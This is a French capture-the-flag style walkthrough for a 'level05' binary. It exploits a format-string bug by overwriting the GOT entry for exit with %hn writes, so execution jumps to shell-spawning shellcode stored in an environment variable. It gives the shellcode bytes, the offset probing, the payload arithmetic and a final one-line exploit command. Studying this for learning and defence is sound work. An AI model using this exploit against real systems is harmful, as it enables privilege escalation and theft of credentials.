

# Level05 — Format String + GOT Overwrite

## Vulnérabilité

```c
printf(buf);   // buf est contrôlé par l'utilisateur, aucune format string fixe
exit(0);
```

`printf(buf)` sans chaîne de format fixe : on contrôle entièrement le format. On peut
lire la stack avec `%x` et **écrire en mémoire** avec `%n` / `%hn`.

Une subtilité du binaire : chaque majuscule (`A`–`Z`, octets `0x41`–`0x5A`) est
convertie en minuscule avant `printf`. Ça n'affecte pas les spécificateurs (`%x`, `%n`
sont en minuscule) ni les adresses embarquées tant que leurs octets ne tombent pas dans
cette plage — ce qu'on vérifie avant de construire le payload.

---

## Étape 1 — Cible : GOT[exit]

```bash
objdump -R ./level05
# 080497e0 R_386_JUMP_SLOT   exit
```

La GOT (Global Offset Table) contient les pointeurs vers les fonctions libc. À
l'adresse `0x080497e0` est stocké le pointeur vers `exit`. On veut remplacer ce
pointeur par l'adresse de notre shellcode : quand le programme appellera `exit(0)`,
il sautera dans notre shellcode.

Vérification des octets de l'adresse GOT (ne doit pas contenir d'octet dans [0x41, 0x5A]) :
- `0xe0` = 224 ✓
- `0x97` = 151 ✓
- `0x04` = 4   ✓
- `0x08` = 8   ✓

---

## Étape 2 — Offset dans la stack

```bash
python -c "print('AAAA' + '.%x' * 10)" | ./level05
# aaaa.64.f7fcfac0.f7ec3af9.ffffd6ef.ffffd6ee.0.ffffffff.ffffd774.f7fdb000.61616161
```

`61616161` = `aaaa` (les `A` passés en minuscule par le programme). C'est à la
**position 10** : le 10ème argument lu par `printf` correspond au début de notre
buffer. Si on place une adresse à l'octet 0 du buffer, `%10$hn` écrira à cette adresse.

---

## Étape 3 — Shellcode dans une variable d'environnement

Le buffer est limité à 100 octets et doit contenir le format string. On place le
shellcode dans une variable d'env — chargée sur la stack au démarrage, elle ne passe
pas dans la boucle de conversion majuscule/minuscule.

```bash
export SHELLCODE=$(python -c "print('\x90'*50 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80')")
```

Les 50 octets `\x90` (NOP) forment un sled : atterrir n'importe où dedans glisse
jusqu'au shellcode. Ça absorbe les petits décalages d'adresse entre processus.

Récupération de l'adresse :
```bash
echo '#include <stdio.h>
#include <stdlib.h>
int main() { printf("%p\n", getenv("SHELLCODE")); }' > /tmp/getenv.c
gcc -m32 /tmp/getenv.c -o /tmp/getenv && /tmp/getenv
# → 0xffffd8af
```

---

## Étape 4 — Pourquoi %hn et pas %n

### Les variantes de %n

| Spécificateur | Taille écrite | Valeur max | Wrap à    |
|---------------|--------------|------------|-----------|
| `%hhn`        | 1 octet      | 255        | 256       |
| `%hn`         | 2 octets     | 65 535     | 65 536    |
| `%n`          | 4 octets     | ~4,3G      | 2³²       |

Chacun écrit le **nombre de caractères imprimés jusqu'ici** modulo sa taille max.
Le wrap est exploitable : si on a déjà imprimé 300 chars et qu'on veut écrire `0x01`
avec `%hhn`, on calcule `(256 - 300 % 256) + 1 = 213` chars à ajouter pour que le
total modulo 256 vaille 1.

### Pourquoi pas %n ici

`%n` écrit en mémoire le nombre de caractères imprimés depuis le début de l'appel.
Pour écrire `0xffffd8af` (= 4 294 953 135) avec `%n`, il faudrait imprimer
**4,3 milliards de caractères** — totalement impraticable.

`%hn` écrit seulement **2 octets** (un `unsigned short`, max 65 535). On découpe
l'adresse cible en deux moitiés et on fait deux écritures séparées :

```
0xffffd8af
├── lower 2 bytes : 0xd8af = 55471  → écrire à 0x080497e0
└── upper 2 bytes : 0xffff = 65535  → écrire à 0x080497e2
```

Si le shellcode avait été en mémoire basse (ex. `0x0804xxxx`, < ~134M), un seul
`%n` aurait suffi. Les adresses stack (`0xffffxxxx`) rendent `%hn` obligatoire.

---

## Étape 5 — Construction du payload

Le buffer commence à l'offset 10. On y place deux adresses consécutives :
- offset 10 → `0x080497e0` (GOT[exit], octets bas)
- offset 11 → `0x080497e2` (GOT[exit]+2, octets hauts)

Calcul du padding (on écrit le plus petit en premier) :

| Étape               | Chars imprimés | Valeur cible       | Padding à ajouter        |
|---------------------|---------------|---------------------|--------------------------|
| Après les 2 adresses | 8             | `0xd8af` = 55 471  | `55 471 - 8 = 55 463`    |
| Après le 1er `%hn`  | 55 471        | `0xffff` = 65 535  | `65 535 - 55 471 = 10 064` |

Payload :
```
\xe0\x97\x04\x08   → adresse GOT[exit]     (offset 10)
\xe2\x97\x04\x08   → adresse GOT[exit]+2   (offset 11)
%55463c            → 55 463 chars → total = 55 471 = 0xd8af
%10$hn             → écrit 0xd8af à 0x080497e0
%10064c            → 10 064 chars → total = 65 535 = 0xffff
%11$hn             → écrit 0xffff à 0x080497e2
```

---

## Commande finale

```bash
(python -c "print('\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55463c' + '%10\$hn' + '%10064c' + '%11\$hn')"; cat) | ./level05
```

Le `cat` maintient stdin ouvert pour interagir avec le shell spawné.

```bash
cat /home/users/level06/.pass
```

---

## Résumé du flux



### Pourquoi GOT+0 puis GOT+2

Un pointeur 32 bits occupe 4 octets en mémoire. En little-endian, l'octet de poids
faible est stocké en premier :

```
adresse  : 0x080497e0  e1  e2  e3
contenu  :     af      d8  ff  ff
           └── 0xd8af ──┘  └─ 0xffff ─┘
```

`%hn` écrit 2 octets à l'adresse donnée. En visant `GOT+0` on écrit les 2 octets bas
(`0xd8af`), en visant `GOT+2` on écrit les 2 octets hauts (`0xffff`). Les 4 octets mis
bout à bout donnent `0xffffd8af`.
